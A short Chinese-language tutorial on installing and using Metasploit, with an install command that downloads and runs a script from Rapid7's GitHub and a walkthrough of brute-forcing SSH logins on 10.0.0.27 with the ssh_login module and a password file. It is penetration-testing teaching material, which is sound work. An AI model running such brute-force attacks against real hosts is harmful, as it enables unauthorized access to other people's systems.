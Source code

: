 ```yaml
---
title: 如何使用metasploit
date: 2022-02-15 00:00:00
tags: 技术
---
```


# 网络安全之metasploit

	各种漏洞测试的工具

# metasploit安装

这下不能直接命令安装了，搜索[官网](https://docs.metasploit.com/docs/using-metasploit/getting-started/nightly-installers.html)

```shell
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
```

# 开始使用
	以暴力破解ssh为例，开始演示
```shell
msfconsole
use auxiliary/scanner/ssh/ssh_login #使用这个模块
msf auxiliary(ssh_login) > set RHOSTS 10.0.0.27 # 设置remote host
msf auxiliary(ssh_login) > set USERPASS_FILE root_userpass.txt # 设置密码文件
msf auxiliary(ssh_login) > run # 开始测试
```

# 其它常用命令
1. help

	显示帮助命令

2. search

	查找漏洞模块,使用查找后use auxiliary/scanner/ssh/ssh_login，等价于下面的搜索
```shell
search ssh_login
use 0
```

3. options
	查看模块可以设置哪些选项
	主要设置required为yes的没有current setting的选项，即设置默认为空的选项